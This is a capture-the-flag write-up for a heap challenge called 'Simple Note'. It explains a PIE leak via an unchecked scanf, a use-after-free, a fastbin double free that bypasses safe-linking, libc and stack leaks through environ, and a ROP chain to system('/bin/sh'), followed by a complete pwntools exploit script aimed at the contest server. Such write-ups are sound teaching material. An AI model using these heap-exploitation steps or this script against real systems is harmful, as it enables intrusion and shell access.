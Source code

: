 # Simple Note

author: kuvee
points: 491

the checksec output:
```
  Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
```

On inspecting the decompilation, we notice:
- We have Use after Free (UAF)
- The pointers are being stored in global array, and we can only have 6 allocations
- allocation is done using calloc() instead of main(), why does this matter? calloc zeroes out space on allocation and the algorithm slightly differs from malloc, so it will be more oriented toward fast-bin attack
- There's a peculiar function on input 9999, which gives a very nice leak
```
Note: something very interesting to see is, if your allocation bin's size has `IS_MMAPED` flag set, then calloc wont zero out its region because it's alrigth zero-ed out from mmap
```
```c
unsigned __int64 sub_193C()
{
  void *v1; // [rsp+8h] [rbp-68h] BYREF
  char s[88]; // [rsp+10h] [rbp-60h] BYREF
  unsigned __int64 v3; // [rsp+68h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  v1 = &unk_4060;
  puts("enter your name: ");
  fgets(s, 80, stdin);
  puts("enter your age: ");
  __isoc99_scanf("%ld", &v1);
  getchar();
  printf("your age: %ld and name: %s\n", v1, s);
  puts("but ... why you here???");
  return v3 - __readfsqword(0x28u);
}
```

When we are doing scanf on `v1` there's no check if it's being taken properly, so if you just give newline, it will print the address of `v1` in the printf line which just happens to be pointer in bss area, awesome.

The main idea behind the exploitation is to first get a heap leak to defeat [safe-link](https://ir0nstone.gitbook.io/notes/binexp/heap/safe-linking) and perform some attack on fastbins to make it return arbitrary pointer,
we want it to be in the BSS area where the array storing the pointers is present, there we can write our own pointers and read/write.

So lets start

- get the pie leak
    ```python
        r.sendlineafter(b'>',b'9999')
        r.sendlineafter(b':',b'a')
        r.sendlineafter(b':',b'aaaaaa')
        r.recvuntil(b'age:')
        exe.address = int(r.recvline().split(b" ")[1].decode())-0x4060
        print(hex(exe.address))
    ```

- get the heap leak
    ```python
        malloc(0x43,b'aaaa')
        free(0)
        heap_leek = unpack(show(0),'all')
    ```
- fill up the tcache without allocating them on pointer array
    ```python
    for i in range(7):
            malloc(0x33,b'')
    ```
    this works because on invalid input like just a '\n' it frees the area and makes the pointer in pointer array NULL


- Now we perform double-free on the fastbin and then change the next pointer to get a controlled pointer in bss area (similar to tcache poinsoning)
    ```python
    malloc(0x33,b'a')
    malloc(0x33,b'b')
    malloc(0x33,b'a')
    free(1)
    free(2)
    free(1)
    st  = (exe.address+0x4080)^(heap_leek)
    edit(1,p64(st))
    malloc(0x33,b'a')
    malloc(0x33,b'a')
    ```
    read this for the [fastbin double free](https://github.com/shellphish/how2heap/blob/master/glibc_2.39/fastbin_dup.c)
    
    It's important to note that my first alloc was 0x43, which is the size that gets stored in the array, this will be acting as the fake fastbin available for use, it's `IS_MMAPED` and `PREV_INUSE` flag will be set due 0x3 (0x2|0x1)
    the allocations after that are 0x33, because allocation algorithm will perform a check on the fastbin size to detect for corruption, 0x33 allocation would go to a bin with 0x40 as size.

- Now we have control over the pointer array with our latest allocation! i'll be leaking the libc and stack address now, by making use of stdout/stdin/stderror file struct pointer in BSS area
    ```python
    edit(5,p64(exe.address+0x4020))
    libc.address = unpack(show(0),'all')-0x2045c0
    edit(5,p64(libc.sym['environ']))
    stack = unpack(show(0),'all')
    print(hex(libc.address))
    print(hex(stack))
    gdb.attach(r)
    rip = stack-0x150
    edit(5,p64(rip))
    ```
    the `environ` symbol in libc contains stack addresses, and `exe.address+0x4020` had one of the file struct pointers in libc

- Now i just do rop
    ```python
    rip = stack-0x150
    edit(5,p64(rip))
    pop_rdi = p64(libc.address+0x10f75b)
    ret = p64(libc.address+0x10f75b+1)
    rop = pop_rdi+p64(next(libc.search(b'/bin/sh'))) + ret+p64(libc.sym.system)
    edit(0,rop)
    ```

and finally get the shell


The solve script:

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./chall_patched")
libc = ELF("./libc.so.6")

context.binary = exe
context.terminal =['alacritty','-e','bash','-c']


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("pwn.blitzhack.xyz",4566)
        context.noptrace=True

    return r


def main():
    r = conn()

    # good luck pwning :)
    r.sendlineafter(b'>',b'9999')
    r.sendlineafter(b':',b'a')
    r.sendlineafter(b':',b'aaaaaa')
    r.recvuntil(b'age:')
    exe.address = int(r.recvline().split(b" ")[1].decode())-0x4060

    print(hex(exe.address))
    def malloc(sz,pl):
        r.sendlineafter(b'>',b'1')
        r.sendlineafter(b':',str(sz).encode())
        r.sendlineafter(b':',pl)

    def edit(idx,pl):
        r.sendlineafter(b'>',b'2')
        r.sendlineafter(b':',str(idx).encode())
        r.sendlineafter(b':',b'0')
        l = int(r.recvline().split(b" ")[-1].decode())
        r.sendlineafter(b'>',b'2')
        r.sendlineafter(b':',str(idx).encode())
        r.sendlineafter(b':',str(l).encode())
        r.sendlineafter(b':',pl)

    def show(idx):
        r.sendlineafter(b'>',b'3')
        r.sendlineafter(b':',str(idx).encode())
        r.sendlineafter(b':',b'0')
        l = int(r.recvline().split(b" ")[-1].decode())
        r.sendlineafter(b'>',b'3')
        r.sendlineafter(b':',str(idx).encode())
        r.sendlineafter(b':',str(l).encode())
        r.recvuntil(b': "')
        return r.recvline().strip()[:-1]

    def free(idx):
        r.sendlineafter(b'>',b'4')
        r.sendlineafter(b':',str(idx).encode())
        r.sendlineafter(b':',b'0')
        l = int(r.recvline().split(b" ")[-1].decode())
        r.sendlineafter(b'>',b'4')
        r.sendlineafter(b':',str(idx).encode())
        r.sendlineafter(b':',str(l).encode())

    malloc(0x43,b'aaaa')
    free(0)
    heap_leek = unpack(show(0),'all')
    for i in range(7):
        malloc(0x33,b'')
    print(hex(heap_leek<<12))
    malloc(0x33,b'a')
    malloc(0x33,b'b')
    malloc(0x33,b'a')
    free(1)
    free(2)
    free(1)
    st  = (exe.address+0x4080)^(heap_leek)
    edit(1,p64(st))
    malloc(0x33,b'a')
    malloc(0x33,b'a')

    edit(5,p64(exe.address+0x4020))
    libc.address = unpack(show(0),'all')-0x2045c0
    edit(5,p64(libc.sym['environ']))
    stack = unpack(show(0),'all')
    print(hex(libc.address))
    print(hex(stack))
    gdb.attach(r)
    rip = stack-0x150
    edit(5,p64(rip))
    pop_rdi = p64(libc.address+0x10f75b)
    ret = p64(libc.address+0x10f75b+1)
    rop = pop_rdi+p64(next(libc.search(b'/bin/sh'))) + ret+p64(libc.sym.system)
    edit(0,rop)
    r.interactive()


if __name__ == "__main__":
    main()
```

